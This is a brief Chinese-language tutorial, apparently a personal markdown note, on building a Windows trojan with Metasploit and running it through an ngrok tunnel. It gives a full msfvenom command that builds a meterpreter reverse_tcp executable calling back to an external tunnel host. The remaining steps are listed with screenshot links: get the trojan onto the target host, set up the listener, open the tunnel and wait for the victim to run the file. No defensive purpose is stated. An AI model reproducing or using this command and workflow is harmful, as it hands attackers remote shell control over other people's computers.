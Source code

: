 1.打开msfconsole![image-20210118230943187](../..//img/image-20210118230943187.png)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=14444 -f exe -o .exe
```

2.输入上述命令进行木马制作

在目标文件夹下生成木马软件

![image-20210118233216072](../../img/image-20210118233216072.png)

3.木马到达目标主机
![image-20210118231923288](../..//img/image-20210118231923288.png)

4.打开攻击机利用模块
![image-20210118232428036](../..//img/image-20210118232428036.png)

5.设置payload 的监听端口
![image-20210118232624483](../..//img/image-20210118232624483.png)

6.等待连接
![image-20210118232659242](../..//img/image-20210118232659242.png)

7.开启tcp内网穿透

![image-20210118233007170](../..//img/image-20210118233007170.png)


8.点击运行木马
![image-20210118232837604](../..//img/image-20210118232837604.png)